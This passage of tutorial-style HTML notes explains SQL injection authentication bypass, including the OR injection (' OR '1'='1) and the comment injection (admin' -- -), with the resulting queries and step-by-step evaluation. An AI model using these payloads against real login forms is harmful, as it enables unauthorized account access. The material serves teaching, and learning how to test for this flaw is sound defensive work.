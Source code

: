 <p>The AND has priority of the OR.Therefore, the statement can be grouped as such:</p>
<pre>
WHERE username='admin' OR ( '1'='1' AND password='something' )
</pre>
<p>Evaluation results in:</p>
<pre>
WHERE username='admin' OR ( TRUE AND FALSE )
</pre>
<p>Further evaluation:</p>
<pre>
WHERE username='admin' OR (FALSE )
</pre>
<p>Further evaluation:</p>
<pre>
WHERE TRUE OR (FALSE) --> TRUE auth bypass 
</pre>
<p>Note that this works only when the username is known</p>

<h5>METHOD: COMMENT Injection</h5>
<p>Payload:</p>
<pre>
admin' -- -
something
</pre>
<p>The query will be:</p>
<pre>
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
</pre>
<p>Note that this works only when the username is known</p>


<h4>Auth bypass with UNKNOWN username</h4>
<h5>METHOD: OR Injection</h5>
<p>For this, we need both fields to always return true. Then, the user present in the first row will be logged in.</p>
<p>payload:</p>
<pre>
' OR '1'='1 (username field)
' OR '1'='1 (password field)
</pre>
<p>Now, we get the following query:</p>
<pre>
SELECT * FROM logins WHERE username='' OR '1'='1' AND password='' OR '1'='1';
</pre>
<p>This is evaluated as follows:</p>
<pre>
WHERE username='' OR ('1'='1' AND password='') OR '1'='1'
</pre>
<pre>
WHERE FALSE OR (TRUE AND FALSE) OR TRUE
</pre>
<pre>
WHERE FALSE OR FALSE OR TRUE
</pre>
<pre>
TRUE
</pre>
<p>Query is always true. Therefore, the first row is returned and that user is now logged in.</p>
